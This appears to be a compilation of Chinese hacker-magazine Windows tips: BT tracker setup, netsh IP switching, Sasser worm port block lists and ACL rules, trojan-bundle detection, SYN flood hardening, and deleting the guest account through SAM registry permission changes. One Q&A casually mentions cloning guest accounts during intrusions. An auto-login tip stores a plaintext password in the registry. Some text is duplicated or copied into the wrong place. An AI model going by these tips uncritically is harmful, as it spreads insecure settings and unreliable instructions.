忽如一夜春风来，千树万树梨花开。BT 的流行比之当年的江湖、传奇等的流行有过之而无不及。现在我们常说的话是：“今天你 BT 了吗？”“蝴蝶姐姐，你怎么吐了？！”假如你还不知道 BT 是什么，那似乎也证明你已到了归隐 Internet 的时候了，当然这里面更有荣幸地被称之为“菜鸟级”的小虾了。不急，当你阅读完这篇文章之后，就再也没有人敢讥笑你了，因为你将学会架设一个私人的 BT 服务器，而且，只要把你的个人电脑、ADSL 利用起来就可以了！更关键的是，这 BT 服务器是安全的哦！

BT 是一种类似于电驴的 P2P 共享软件，全名叫 “BitTorrent”，中文全称：“比特流”，可不是俗称的“变态”哦！它之所以在中国传播得这么快，就是因为独创了独特的共享形式。但是如果你想安全地架设一个完美的 BT 发布页程序，还需要一些 ASP、CGI、PHP 相关的编程知识，这样你才能更好地维护好你的 BitTorrent 服务器。

## BT 下载比 FTP、HTTP 下载更具有吸引力

最新的电影、游戏、动漫，只要你想得到的，BT 都能提供给你，而且速度也是“BT”地远远超过你的想像，再也不用为只有几 K 的下载速度烦恼了。BT 的原理是：下载的人越多，速度越快，完全不同于以往的任何同类软件。它引入了 SEED（种子）的定义（嘿嘿，让人想到高达 SEED 了——一部很 NB 的动画片，具有 SEED 能力的驾驶员的形象一下子活灵活现咯……咳咳，扯远了），当种子数越多时，下载所能达到的速度将越快，当然是战士越多战斗力越强了，大家都说“人多力量大”嘛！

> **TIPS：SEED 是什么？**
>
> BT 把提供完整文件档案的人称为种子（SEED），正在下载的人称为客户（Client），某一个文件现在有多少种子多少客户是可以看到的，只要有一个种子，就可以放心地下载，一定能抓完。当然，种子越多，客户越多的文件抓起来的速度会越快。

## BitTorrent 服务器架设准备资料

- 1. 你需了解 BitTorrent 服务器需要什么样的配置
  - 标准配置：P3 1GHz，1G 内存，硬盘没有限制但是最好是 7200 转。
  - 推荐配置：P4 2.4GHz，1G 内存，Raid0 硬盘。

哇！太吓人了，我们的普通机器加 ADSL 上网的朋友眼看就要哭了！可别伤心！要说明的是：

服务器的配置根据你网站的访问量不同而定，如果你网站有日 5 万以上的访问量最好使用 P4 1.7G 以上的服务器，这样才能保证 BitTorrent 服务器的稳定。要是就是几百人在用，比如你的朋友、同学、网友什么的，个人机器和 ADSL 足够了！嘿嘿，不信你自己可以试试哦！

## 2. 你需要一个稳定高速的 ADSL 带宽

偶看到很多朋友都抱怨自己的 1M 带宽就只有 100 多 K 的下载速度，其实这中间是有玄虚的哦：服务器的带宽越高，流量访问也就越稳定。比如：512K 的 ADSL 下载速度（下行）一般是 230K/S 左右，上传速度（上行）一般是 60K/S。不过有很多时候，我们会发现电信或是其他 ISP 提供商限制了速度，如果你发现达不了理论值，那有可能你就被归入不幸者行列了，给电信打电话去！俺可就是这么搞的！嘿嘿。

这儿我们以 512K 速度的 ADSL 为例，如果你要用 512K 的线路作 BitTorrent 服务器的话，别人上传到你服务器的种子文件（一般大小在 40KB）速度是没有问题的，但是访问量超过 5 万速度就有点慢了，因为访问者都要从你的服务器上下载种子文件，而你的上行速度就是别人的下行速度，也就是说别人在你的服务器上下载种子，只有 <60KB 的速度——要是你的私人服务器也能做到 5 万，那网络上无处不在的“风险投资商”一定会敲响你这个未来中国网络人才的大门的！

> **TIPS：带宽是如何确认速度的？**
>
> 很多时候大家看到的速度，尤其是直接 `http` 或 `ftp` 下载时显示的速度都只是瞬时的速度，并不是真正的下载速度，是没有参考意义的。电信标称的带宽单位是 `kbit/s`，也就是说换算成我们下载的速度单位 `Kbytes/s` 是要除以 8 的，所以 512k 的 ADSL 的理想下载速度就是 `512/8=64Kbytes/s`；1M 的最大下载速度是 128K；2M 的 256K，以此类推。

## 3. 你需要一个能发布 Web 页的服务器

一般情况下，现在大多用户使用的操作系统是 Win2000 以上版本，而 Win2000 以上系统基本上都带有 IIS。IIS 是发布 Web 页的重要组件，如果你想使用 Apache 来架设 Web 页也是可以的，不过这个还要取决于你的 BitTorrent 发布页是用什么脚本编写的，因为 Apache 不支持 ASP。现在已经编写出来的 BitTorrent 发布页脚本有 PHP（原官方程序改编的 http://www.btchina.net）、CGI（雷傲编写 http://www.leoboard.com）、ASP（比特互联网编写）；现在大部分使用的是 PHP 的，少部分使用 CGI 的，因 ASP 有版权问题导致发布页很少是 ASP。按照稳定程度而言，大部分取决于 TRACK 的编写，但是也有一部分原因在发布页的语言编写。按照速度而言，PHP 最快，接下来是 ASP，最后是 CGI。

因为很多个人 PC 没有固定 IP，推荐使用花生壳（PeanutHull）（官方 http://www.oray.net）架设后进行域名解析，要不然就只有你自己享受架设成果了，它的好处是免费的，只要你下载后安装就可以了——别人是访问不了你的 BT 服务器的哟。黑防很早很早以前就介绍过这个东东了，这儿不再累述。

> **TIPS：IIS 服务器如何安装？**
>
> 我们以 Windows 2003 Server 平台为例，点击“控制面板→添加或删除程序→添加/删除 Windows 组件”便可安装 IIS 组件，当然也可以通过“配置你的服务器向导”进行安装。

## BitTorrent 服务器架设

- 1. 确认你具有一个能发布 Web 页的服务器。
- 2. 推荐下载 MyBT 服务器 1.0（官方下载 http://bt.1he.net），为什么要使用这个软件？当然有我们菜鸟认为的好处了：最让人感到高兴的是安装与使用方便，我们可以跳过很多复杂的设置。
  - 1. MyBT 服务器用 C++ 语言编写内核，稳定速度快，并针对 Windows 作了大量优化（同时因发布种子需要，请下载并安装 MyBT 1.0 下载端）。
  - 2. 首个使用中文图形界面的 BT 服务器。
  - 3. 一键安装，管理程序与服务程序分开运行，有效提高了服务器性能。
  - 4. 内置 Web 服务器，不需要配置虚拟机，不需要复杂的配置，一个 EXE，一键搞定 BT 站点。
  - 5. 任何普通电脑、一通 ADSL 都可以运行 MyBT 建立站。
- 3. 安装 BT 服务器。把 MyBT 服务器解压到 `D:\bt` 目录下，双击运行 `mybtExe.exe` 即可，很友好的中文界面，如图 1 所示。


点击“一键安装服务器”，傻瓜化的操作不过效果却很好。在这儿要求我们输入管理员账号/密码，请大家输入一个超复杂的口令吧，这可是安全的一步哟。如图 2 所示。


当管理员账号完成后会出现以下的图示（图 3），到这儿我们就完成了 MyBT 的设置了。


之后，我们再在 IE 地址栏里输入 `http://localhost:6969/`，这样简单就完成了架设 BT 服务器的第一步。

- 4. 打开所需要的端口 6969。有部分朋友会遇到本地 `http://localhost:6969` 可以访问，但别人却访问不了的情况，一般多是路由或软件防火墙没有打开此端口。下面将以阿尔卡特 HOME ADSL MODEM 为例（自己升为路由，嘿嘿！）：进入路由界面后，点击“NAPT”（也就是 NAT 了），再点击“New”，新建一个 NAT 通道，INSIDE 为你本地路由局域网设置（以各路由为准，阿尔卡特的是 10.0.0.X），INSIDE PORT 与 OUTSIDE PORT 均为 6969，OUTSIDE IP 为 0.0.0.0，表示任意 IP 均可以访问，如图 4 所示。

再点击“APPLY”（添加），SAVE ALL（保存全部）就可以了。这儿要注意一点，各路由都不一样的界面，不过设置大同小异，差不多都是上面这样子。再打开软件防火墙（以金山网镖 6 为例），加上端口 6969，保存生效就 OK 了，如图 5 所示。


- 5. 制作 Torrent 文件并发布。现在我们好比有了一个空的房子，怎么可以没有最好的家具呢？我们把最吸引眼球的东西放上来吧。这需要我们安装 CompleteDir 1.0.1 或是 MyBT 1.0（附带发布工具）。这儿以 CompleteDir 为例，将下载的 CompleteDir 安装后，打开 btcompletedirgui.exe，选择需要做成 Torrent 的文件所在的目录（注意：最好是打成单一或几个 RAR 文件，因为每个文件都会生成一个 Torrent 文件），如图 6 所示，再选择发布的 URL 地址，以及分割成为多少个小片，点击“Make”生成文件。


再次打开 http://localhost:6969/index.html 登录后，点击“请点这里上传 .torrent 文件并启动下载文件种子”，选定刚才生成的文件，输入发布时间的文件名，点击“生成”。这样就发布成功了，如图 7 所示。

呵呵，接下来还需要你提供一个发布源。请双击硬盘上的 .torrent 文件（或是网页上的），会自动跳出一个对话框让你选择路径，此时不能把路径搞混，应该选择你刚选的文件源（如同续传或 reseed），将 BT 下载安装文件/目录指向你刚才共享的那里。再经过两分钟左右的时间校验成功看到提示 Finish 后，不关闭这个窗口就正式作了种子，提供上传服务了，如图 8 所示。


至此也就完成了 BT 服务器的设置了。

## BT 服务器的安全

不可不提的是，BT 服务器的安全问题了。基于 BT 服务是以 Windows 服务启动，或是需要各种协议的支持，以及其发布网页程序是网上共享下载得到的，于是可能存在着安全隐患。笔者推荐架设 BT 服务器的朋友能做到机器本身的安全，以确保 BT 服务器自身的安全问题。现阶段的 BT 服务还不是很完善，它的安全问题也需要大家努力关注！

比如最常见的系统补丁没有及时修补、密码泄露等问题都是比较麻烦的事情，这里推荐使用防火墙对自己的服务器进行加固，只打开必须的端口，其他端口全部关掉！并且，最狠的一招就是把系统里的 cmd.exe、net.exe 等关键命令程序都移位，这样有什么好处？嘿嘿，别人无法利用系统漏洞溢出你的服务器哦（PS：忘了这里是什么地方了，在这里和大家讲安全有点班门弄斧的味道，呵呵，大家多看杂志里其他文章吧，系统安全对你来说一定是小儿科咯）

通过上面的设置，一个利用你自己的个人电脑 + 普通 ADSL 而构架起来的安全性很高的 BT 服务器就架设起来了！大家赶快去享受 BT 的快感吧！Let's go!

# 利用 netsh 命令实现 IP 地址快速切换

有时候我们需要在多个环境下接入网络工作，在没有路由器自动分配的情况下，需要每次手动设置 IP 地址和网关等信息，这个过程相当烦琐和无聊，可以利用 netsh 命令用快捷方式实现 IP 地址的快速切换。

## 基本用法：

- 1. 用记事本或者其他编辑软件创建文件，内容如下：

```text
int ip
set address name="本地连接" source=static addr=192.168.0.107 mask=255.255.255.0
set address name="本地连接" gateway=192.168.0.1 gwmetric=1
```

保存为 d:\107.sh，以上设置的 addr 是 IP 地址，mask 是子网掩码，gateway 是网关，gwmetric 是默认网关的跃点数。

- 2. 在桌面建立批处理文件 107.bat，内容如下：

```text
netsh exec d:\107.sh
```

当运行此批处理时，就调用了 107.sh 文件，达到修改 IP 地址和网关的目的。其他 IP 地址按照上面方法建立文件，这样很容易就实现 IP 地址的方便切换和控制。

## 应用扩展：

以上情况只是更改了 IP、掩码、网关，更改 sh 文件有不同用法：

```text
int ip
set address name="本地连接" source=dhcp    // 自动获取 IP 地址
set dns name="本地连接" source=dhcp        // 自动获取 DNS
set dns "本地连接" static 192.168.0.1 primary  // 设置首选 DNS 为 192.168.0.1
set dns "本地连接" static none            // 清除 DNS 列表
```

其实刚才第一个例子可以简单地写为：

```text
set address "本地连接" static 192.168.0.107 255.255.255.0 192.168.0.1 1
```

“本地连接”为 name 连接名，192.168.0.107 为 addr 待设定 IP 地址，255.255.255.0 为 mask 子网掩码，192.168.0.1 为 gateway 网关，1 为 gwmetric 默认网关的跃点数。

# 如何防范震荡波病毒

对个人用户来说，可以使用如下方法：

- 1. 安装相应的补丁程序；
- 2. 如果无法及时安装补丁程序，请使用防火墙阻断以下端口的数据连接；

```text
135/tcp
139/tcp
445/tcp
1025/tcp
5554/tcp
9996/tcp
```

对于网络管理员来说，我们可以在网络边界处进行设置，在边界路由器上添加如下规则阻断 445 端口上的数据：

```text
access-list 110 deny tcp any any eq 445
```

手动清除方法：下载相应的补丁程序，结束系统进程中的进程 *avserve.exe 或者 avserve2.exe，其中 * 由 4—5 个随机的阿拉伯数字和 up.exe 组成的名字进程。升级系统的杀毒软件到最新的病毒库以便于杀毒软件进行查杀和实时监控。使用杀毒软件进行全盘扫描，发现病毒后选择删除。打开注册表，删除以下键值：

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 项中的 “avserve.exe”="%Windir%\avserve.exe" 值，最后就是安装补丁程序后重新启动机器了！对了，我们也可以使用专杀工具进行查杀。

# 轻松识破文件、木马捆绑

可以采用 WinHex，以 QQ 捆绑木马为例。第一步：运行 WinHex，用它打开捆绑后的 QQ.exe 文件，然后单击“搜索”菜单下的“查找文本”，在“下列文本字符串将被搜索”一栏中输入：“This program”，单击“确定”按钮开始查找。如果您找到多于 2 个“This program”字符串则证明该文件捆绑有其他文件，而这可能就是木马。

> 注意：对于 EXE 捆绑机产生的伪装 Flash 文件，还可以配合一些查看文件调用函数的工具来进行检查。如 API SPY 就可以查出可执行文件调用了哪些函数，如果你发现 Flash 文件调用了 Wsock32.dll、Winsock.dll 之类的函数，则必然是含有木马无疑。

# 抵抗 SYN Flood 攻击

软件与系统上，我们可以考虑以下方法加强防护：

- 1. 修改注册表，增强系统的抗 DoS 能力。该设置的性能取决于服务器的配置，尤其是 CPU 的处理能力。
- 2. 确保所有服务器采用最新系统，并打上安全补丁。计算机紧急响应协调中心发现，几乎每个受到 DDoS 攻击的系统都没有及时打上补丁。
- 3. 确保管理员对所有主机进行检查，而不仅针对关键主机。这是为了确保管理员知道每个主机系统在运行什么、谁在使用主机、哪些人可以访问主机。不然，即使黑客侵犯了系统，也很难查明。
- 4. 确保从服务器相应的目录或文件数据库中删除未使用的服务，如 FTP 或 NFS。
- 5. 禁止使用网络访问程序，如 Telnet、FTP、Rsh、Rlogin 和 Rcp；限制在防火墙外与网络文件共享。
- 6. 在防火墙上运行端口映射程序或端口扫描程序。大多数事件是由于防火墙配置不当造成的，使 DoS/DDoS 攻击成功率很高，所以一定要认真检查特权端口和非特权端口。
- 7. 检查所有网络设备和主机/服务器系统的日志。只要日志出现漏洞或时间出现变更，几乎可以肯定：相关的主机安全受到了威胁。

遗憾的是，目前没有哪个网络可以免受 DDoS 攻击，但如果采取上述几项措施，能起到一定的预防作用，不然就掏钱买硬件防火墙吧！

# CMD 下加密 NTFS 目录文件夹和文件

举例来看：

- 1. 加密 F 盘下的 efs 目录：在“命令提示符”窗口，进入到“F:\>”提示符下，然后运行“cipher /e efs”命令，接着系统提示“正在加密 f:\ 中的目录，efs [OK]，1 个目录中的 1 个目录已被加密”信息后，完成“efs”目录的加密操作。如果要加密 efs 目录下的所有子目录，运行“cipher /e /s:efs”命令即可。
- 2. 加密 F 盘下 efs1 目录中的“ichat.txt”文件：在命令提示符窗口中运行“cipher /e /a efs1\ichat.txt”命令后，系统提示“ichat.txt [OK]，1 个目录中的 1 个文件（或目录）已被加密”信息后，完成对 ichat.txt 文件的加密。如果要加密该目录下的所有文件，运行“cipher /e /a efs1\*”命令即可。

加密后再来看看如何查询加密目录和加密文件：可以使用 cipher.exe 命令查询系统中哪些目录和文件被加密。如查询 F 盘中的 efs 目录是否被加密，在命令提示符窗口中输入“cipher efs”命令，然后系统提示“E efs”信息，说明 efs 目录已被加密。要查询 efs 目录中哪些文件已被加密，运行“cipher efs\*”命令即可。

如何来解密目录文件夹呢？在命令提示符窗口中运行“cipher /d efs”命令后，就将 efs 目录解密。要解密 efs 目录下的所有子目录，运行“cipher /d /s:efs”命令即可。要解密 efs1 目录中的 ichat.txt 文件，运行“cipher /d /a efs1\ichat.txt”命令；解密该目录所有文件，运行“cipher /d /a efs1\*”命令即可。

# 手工删除 guest 账号

guest 账号信息是存储在 sam 文件和注册表中的，对于 sam 文件，系统允许我们手工修改；如果删除注册表中 guest 的账号注册信息，我们也可达到目的。方法如下（以 Windows NT 和 Windows 2000 为例）：

```text
C:\>regedit
```

打开 HKEY_LOCAL_MACHINE\SAM\SAM，我们会看到里面好像没有信息了，事实上是有信息的，主要是我们的权限不够。一般这时候我们是 Administrator 权限，而事实上此时系统内置的 SYSTEM 是可以访问的。那么如何去打开 SAM 下的账号信息呢？我们先关闭 regedit，然后执行：

```text
C:\>regedt32
```

找到 HKEY_LOCAL_MACHINE 窗口，选中 SAM\SAM，然后点菜单中的权限设置，这时候我们可看到 Administrators 组只具有特殊权限，而 SYSTEM 账号却拥有全部控制权限！现在我们更改 Administrators 权限为全部控制，这样我们就可以访问 SAM 下的信息了。再次运行 regedit：

```text
C:\>regedit
```

这时可以看到 HKEY_LOCAL_MACHINE\SAM\SAM 下的键值了，步步深入一直找到：

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5  
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest

删除 000001F5 和 Guest，然后退出 regedit。为了安全考虑，防止用户不小心删除系统账号，再次运行 regedt32，恢复 Administrators 对 sam 的权限。

## 老编啊，救命啊，局域网慢得要死，听朋友说是中振荡波了！怎么样快速识别振荡波（Worm.Sasser）病毒呢？

如果用户的电脑中出现下列现象之一，则表明已经中毒，就应该立刻采取措施清除该病毒：

- 出现系统错误对话框：被攻击的用户，如果病毒攻击失败，则用户的电脑会出现 LSA/Shell 服务异常框，接着出现一分钟后重启计算机的“系统关机”框；
- 系统日志中出现相应记录：如果用户无法确定自己的电脑是否出现过上述的异常框或系统重启提示，还可以通过查看系统日志的办法确定是否中毒。方法是：运行事件查看器程序，查看其中系统日志；
- 系统资源被大量占用：病毒如果攻击成功，则会占用大量系统资源，使 CPU 占用率达到 100%，出现电脑运行异常缓慢的现象；
- 内存中出现名为 avserve 的进程：用户可以用 Ctrl+Shift+Esc 的方式调用“任务管理器”；
- 系统目录中出现名为 avserve.exe 的病毒文件：病毒如果攻击成功，会在系统安装目录（默认为 C:\WINNT）下产生一个名为 avserve.exe 的病毒文件；
- 注册表中出现病毒键值：病毒如果攻击成功，会在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 项中建立病毒键值：`"avserve.exe"="%WINDOWS%\avserve.exe"`。

# 创建自定义的远程控制连接客户端

Windows 2000 下默认的远程控制客户端只能识别目标服务器默认的 TCP 3389 端口，因此需要更改一下，方法如下：

- 1. 在终端客户端管理器中建一个连接快捷方式，然后导出这个快捷方式。
- 2. 用文本编辑器编辑导出的文件。
- 3. 把里面的连接端口由 3389 更改为你自定义的端口。
- 4. 然后保存。
- 5. 最后再在终端管理器中导入这个快捷方式。
- 6. 以后就可以直接双击这个快捷方式进行连接了。

Windows XP 的远程控制终端可以识别用户自定义的工作端口，只需要在连接目标处指定端口即可。例如：远程服务器的动态域名是 `remote.dhcn.net`，远程服务工作端口是 `TCP 10000`，那么在远程控制客户端的连接目标处填写 `remote.dhcn.net:10000` 就可以进行连接了。

# Win2000 系统中常见的必须服务有哪些

啊？我在配置服务器的时候，总是记不住必要的服务，究竟是哪些呢？

作为最流行的网络操作系统之一，Windows 2000 的服务器版和高级服务器版受到了许多网管的青睐，不过它们对系统资源的大量占用也同时让人头疼！其实，对于普通操作，Windows 2000 中的许多服务都是属于不必要的，如果你把它们停止了，不仅仍然能够正常工作，还可以体验如飞似地运行 Windows 2000 的感觉！

以 Windows 2000 高级服务器版（以下简称 Win2000）为例，总结出了一个列表，里面只留下正常进行局域网、互联网访问和一般操作所需的服务以供大家参考。

- **COM+ Event System**：提供事件的自动发布到订阅 COM 组件
- **Computer Browser**：维护网络上计算机的最新列表以及提供这个列表
- **Machine Debug Manager**：Manages local and remote debugging for Visual Studio debuggers.
- **Network Connections**：管理“网络和拨号连接”文件夹中对象，在其中你可以查看局域网和远程连接
- **Plug and Play**：管理设备安装以及配置，并且通知程序关于设备更改的情况
- **Protected Storage**：提供对敏感数据（如私钥）的保护性存储，以便防止未授权的服务、过程或用户对其的非法访问（备注：缺少了此项后可能造成在 IE 中输入文字后死机）
- **Remote Procedure Call (RPC)**：提供终结点映射程序（endpoint mapper）以及其他 RPC 服务
- **Security Accounts Manager**：存储本地用户账户的安全信息
- **Server**：提供 RPC 支持、文件、打印以及命名管道共享
- **Windows Management Instrumentation Driver Extensions**：与驱动程序间交换系统管理信息

# WINXP 系统，注册表里面的 SAM 项被锁定了，怎么解决？

先在“运行”里面输入 `regedt32.exe`，会弹出来一个和注册表操作软件（regedit.exe）差不多的窗口！在里面找到 SAM 键值，位置和注册表里面的位置一样，点中它，再在工具栏上找到“编辑→权限”，看 Administrator 的权限是不是“完全控制”？不是就选上，OK！

# Q：我们经常在入侵的时候都是利用克隆服务器上的 guest 账户来达到控制服务器的，现在我也有自己的服务器了，请问如何来手工删除 guest 账户呢？

A：guest 账号信息是存储在 sam 文件和注册表中的，对于 sam 文件，系统允许我们手工修改；但如果删除注册表中 guest 的账号注册信息，我们也可达到目的。方法如下（以 Windows NT 和 Windows 2000 为例）：

```text
C:\>regedit
```

打开 HKEY_LOCAL_MACHINE\SAM\SAM，我们会看到里面已经没有信息了，事实上是有信息的，主要是我们的权限不够。一般这时候我们是 Administrator 权限，而事实上此时系统内置的 SYSTEM 是可以访问的，那么如何去打开 SAM 下的账号信息呢？我们先关闭 regedit，然后执行：

```text
C:\>regedt32
```

找到 HKEY_LOCAL_MACHINE 窗口，选中 SAM\SAM，然后点菜单中的权限设置，这时候我们可看到 Administrators 组只有特殊权限，而 SYSTEM 账号却拥有全部控制权限！现在我们更改 Administrators 权限为全部控制，这样我们就可以访问 SAM 下的信息了。再次运行 regedit：

```text
C:\>regedit
```

这时可以看到 HKEY_LOCAL_MACHINE\SAM\SAM 下的键值了，步步深入一直找到：

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

删除 000001F5 和 Guest，然后退出 regedit。为了安全考虑，防止用户不小心删除系统账号，再次运行 regedt32，恢复 Administrators 对 sam 的权限。

# Q：我想在自己机器上调试程序，还有测试病毒，可是怕造成严重后果。我也不想破坏其他人的机器，可是我急切需要提高呀，没有实践就没有进步，小编有什么好的对策吗？

A：推荐你使用 VMWare 或是 Virtual PC 虚拟机。虚拟机软件可以在一台电脑上模拟出来若干台 PC，每台 PC 可以运行单独的操作系统而互不干扰，可以实现一台电脑“同时”运行几个虚拟操作系统，还可以将这几个虚拟操作系统连成一个网络。

PC 上的虚拟机软件有下述两个，你可以在下面网址或国内各大下载站下载到：

| 软件 | 网址 |
|---|---|
| VMWare | http://www.vmware.com |
| Virtual PC | http://www.connectix.com |

# Q：每次进入 Windows XP 总会出现一个用户登录的画面，要求输入用户名和密码，这样的好处是在多人使用一部电脑的环境中安全性上有保障。可是电脑只是我一个人使用，每次都必须输入密码，实在是令人讨厌，请问如何取消这个设定？

A：按照下面的操作：

- 1. 运行注册表编辑器，依次展开 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]` 分支，然后在右侧窗口双击 `DefaultUserName`，接着输入你的登录用户名。如果没有预设的用户名，可在注册表编辑器的菜单栏点选“编辑→新建→字符串值(s)→DefaultUserName”来添加这个项目，注意要区分大小写字母。
- 2. 同样在该分支下，在注册表编辑器的右侧窗口中双击 `DefaultPassword`，然后在空白栏内输入你的密码。假如未发现 `DefaultPassword` 一项，可按上面的步骤来新建该字符串值(s)。
- 3. 接下来在右侧窗口中双击 `AutoAdminLogon`，将数值设为 `1`。假如未发现 `AutoAdminLogon`，可按上面的步骤来新建该字符串值(s)。

关闭注册表编辑器并重新启动电脑，以后你会发现那个令人讨厌的登录对话框不见了。

# Q：我的机器以前是用 WIN2000 的，一切都很正常，现在装上 WIN2003 后，打开 IE 窗口一多就死机，请问是怎么回事？

A：首先从你的情况看应不是硬件问题，因为以前也帮助朋友解决过呢。我们对比一下两个系统的差别，不难发现 WIN2003 的显卡加速功能、声音功能需要手动打开，问题一般就在这上面了：

显卡的硬件加速：在桌面点右键——>>属性——>>Settings——>>Advanced——>>Troubleshoot，把滚动条拉到最右，然后打开 `windows\system32\dxdiag.exe`——>>Display，可以看到 DirectDraw Acceleration、Direct3D Acceleration、AGP Texture Acceleration，都是禁止的，依次打开它！

声卡的硬件加速也可在此打开：打开 `windows\system32\dxdiag.exe`——>>Display，可以看到 DirectDraw Acceleration、Direct3D Acceleration、AGP Texture Acceleration，都是禁止的，依次打开它！

另外，Win2003 不是为家庭多媒体设计的，它是为大型商业服务设计的，所以它自动关闭了一些功能，以此来提升系统效率，包括显卡、声卡、桌面等。